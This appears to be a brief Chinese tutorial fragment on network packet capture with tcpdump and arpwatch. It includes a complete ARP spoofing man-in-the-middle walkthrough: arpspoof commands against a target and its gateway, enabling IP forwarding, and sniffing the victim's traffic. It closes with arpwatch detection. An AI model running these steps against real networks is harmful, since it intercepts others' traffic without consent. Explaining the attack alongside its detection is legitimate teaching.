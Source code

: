 tcpdump -i eth0 -ent '(dst 192.168.0.125 and src 192.168.0.141) or (dst 192.168.0.141 and src 192.168.0.125)'

tcpdump arp -n -i wlp3s0




arpwatch 实际上就是通过 libpcap 进行监控，也就是根据 arp or rarp 过滤条件接收报文。


driftnet 抓取图片


### ARP 攻击

其中 192.168.3.11 为需要攻击的机器 IP ，192.168.3.1 为网关 IP 。

{% highlight text %}
# arpspoof -i wlp3s0 -t 192.168.3.11 192.168.3.1
{% endhighlight %}

这步是告诉 192.168.3.11 机器，192.168.3.1 的 MAC 地址是我们本机的 MAC 地址。然后，另外打开一个终端，告诉 192.168.3.1，机器 192.168.3.11 的 MAC 地址为本机地址。

{% highlight text %}
# arpspoof -i wlp3s0 -t 192.168.3.1 192.168.3.11
{% endhighlight %}

打开 IP 的转发功能，这样被攻击者 192.168.3.11 的所有报文都会经过本机。

{% highlight text %}
# echo 1 > /proc/sys/net/ipv4/ip_forward
{% endhighlight %}

现在，就可以通过 tcpdump 监控 192.168.3.11 与外部网路的数据报文。

{% highlight text %}
# tcpdump host 192.168.3.11 and not arp
{% endhighlight %}

对于这种中间人攻击，可以通过 arpwatch 进行监控。

{% highlight text %}
# arpwatch -I eth0 -d                        # 监控ARP的变化，并发送邮件
# tailf /var/log/messages | grep arpwatch    # 查看打印到syslog的日志
{% endhighlight %}
